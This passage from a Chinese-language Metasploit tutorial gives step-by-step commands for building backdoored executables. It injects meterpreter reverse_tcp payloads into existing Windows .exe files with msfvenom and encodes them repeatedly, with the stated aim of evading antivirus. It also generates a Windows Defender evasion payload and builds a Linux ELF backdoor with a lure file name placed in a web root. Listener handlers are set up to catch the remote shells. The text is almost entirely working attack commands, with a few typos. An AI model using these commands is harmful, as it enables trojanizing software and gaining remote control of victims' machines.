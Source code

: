     ```shell
    use exploit/multi/handler  # 设置模块
    	set payload windows/meterpreter/reverse_tcp # 设置 payload
    	set lhost 192.168.18.143  # 与生成木马的地址一样
    	run  # 执行
    		# 查看获取的权限，进行提权
    ```
5.  模拟黑客给软件加后门： 在 .exe 文件中注入后门。 注入思路： 先看主程序附加了那些小程序，在小程序上面进行添加 payload

    ```shell
    # 使用 kaill 工具给附加小程序添加 payload  
    msfvenom # 工具
    	-a x86 # 指定架构
    	--platform windows # 指定平台
    	-p windows/meterpreter/reverse_tcp LHOST=192.168.18.143 LPORT=444 # 指定攻击载荷
    	-b "\x00" # 去掉坏字符坏字符会影响 payload  执行
    	-e x86/shikata_ga_nai # 指定编码器，面杀
    	-i 10 # 指定编码次数
    	-x  1.exe  # 要植入后门的文件
    	-f exe # 指定输出文件格式
    	-o /ver/www/html/1.exe  # 文件输出位置
    ```
6.  使用 evasion 模块生成免杀木马：

    ```shell
    use evasion/windows/windows_defender_exe  # 使用指定模块
    	set FILENAME xue.exe  # 设置文件名称
    	set payload windows/meterpreter/reverse_tcp  # 设置 payload
    	set Lhosts 192.168.1.104 # 设置 hosts
    	run # 执行

    # 监听
    use exploit/multi/handler  # 设置模块
    	set payload windows/meterpreter/reverse_tcp # 设置 payload
    	set lhost 192.168.18.143  # 与生成木马的地址一样
    	run  # 执行
    		# 查看获取的权限，进行提权
    ```

#### 2. 制作 Linux 恶意软件

```shell
# 使用一个编码器
msfvenom # 工具
	-a x64 # 指定架构
	--platform linux # 指定平台
	-p linux/x64/meterpreter/reverse_tcp LHOST=192.168.18.143 LPORT=444 # 指定攻击载荷
	-b "\x00" # 去掉坏字符坏字符会影响 payload  执行
	-i 10 # 指定编码次数
	-f elf # 指定输出文件格式
	-o /ver/www/html/西瓜影音1.exe  # 文件输出位置
	
# 监听
use exploit/multi/handler  # 设置模块
	set payload linux/x/meterpreter/reverse_tcp # 设置 payload
	set lhost 192.168.18.143  # 与生成木马的地址一样
	run  # 执行
		# 查看获取的权限，进行提权
```
